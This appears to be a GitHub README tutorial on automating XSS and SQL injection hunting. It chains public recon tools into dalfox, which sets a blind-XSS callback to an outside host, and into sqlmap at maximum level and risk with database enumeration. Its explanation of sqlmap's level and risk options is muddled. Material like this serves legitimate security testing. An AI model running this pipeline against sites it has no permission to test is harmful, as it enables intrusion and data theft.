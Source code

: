 # Automation_guide
Learn how to automate XSS, SSRF, LFI, SQLI, NoSQLi

## Tools needed for automation

* <a href="https://github.com/projectdiscovery/subfinder">Subfinder</a>
* <a href="https://github.com/projectdiscovery/httpx">httpx</a>
* <a href="https://github.com/tomnomnom/waybackurls">waybackurls</a>
* <a href="https://github.com/sqlmapproject/sqlmap">sqlmap</a>
* <a href="https://github.com/hahwul/dalfox">dalfox</a>
* <a href="https://github.com/tomnomnom/qsreplace">qsreplace</a>
* <a href="https://github.com/ffuf/ffuf">ffuf</a>
* <a href="https://github.com/Charlie-belmer/nosqli">nosqli</a>
* <a href="https://github.com/tomnomnom/gf">gf</a>
* <a href="https://github.com/1ndianl33t/Gf-Patterns">Gf_Patterns</a>

## XSS automation 

You can automate XSS by the following steps:

**STEP 1**<br>

*Find the subdomains of the target:*

```
$ subfinder -d example.com | tee -a domains.txt
```
`-d` is to specify the target domain and `tee -a domains.txt` will save the output to a file.

**STEP 2**<br>
*Find the domains that are alive:*
```
$ cat domains.txt | httpx | tee urls.alive 
```
`cat domains.txt` will open the file and `httpx` will find the domains that are alive and `tee urls.alive` will save the output to a file.

**STEP 3**<br>
*Fetch known URLs from the Wayback Machine:*
```
$ cat urls.alive | waybackurls | tee wayback.urls
```
`cat urls.alive` will open the file and `waybackurls` will fetch the URLs from Wayback Machine and `tee wayback.urls` will save the output to a file. 

**STEP 4**<br>
*Find the XSS pattern URLs from wayback.urls:*
```
$ gf xss wayback.urls >> urls.xss
```
`gf xss` is to specify that you have to find the URLs that have XSS patterns from `wayback.urls` file and `>> urls.xss` will save the output to a file.

**STEP 5**<br>
*Find XSS using dalfox:*
```
$ dalfox -b hahwul.xss.ht file urls.xss
```
`-b` is to specify the blind XSS payload and `file urls.xss` is the file that contains XSS pattern URLs. 

## SQL injection automation
You can automate SQL injection by the following steps:

* NOTE: The steps are same as XSS upto STEP 3 

**STEP 4**<br>
*Find the SQLI pattern urls from wayback.urls:*
```
$ gf sqli wayback.urls >> urls.sqli
```
`gf sqli` is to specify that you have to find the URLs that have SQLI patterns from `wayback.urls` file and `>> urls.sqli` will save the output to a file.

**STEP 5**<br>
*Find SQL injection using sqlmap*
```
$ sqlmap -m urls.sqli --level 5 --risk 3 --batch --dbs --tamper=between 
```
`-m` is to specify the multiple targets file which is `urls.sqli`, `--level 5` will increase the level of scanning and exploitation, `--risk 3` allows the type of payloads used by the tool. By default, it uses value 1 and can be configured up to `level 3`. Level 3, being the `maximum`, includes some `heavy SQL queries`. The level defines the number of `checks/payload` to be performed.  



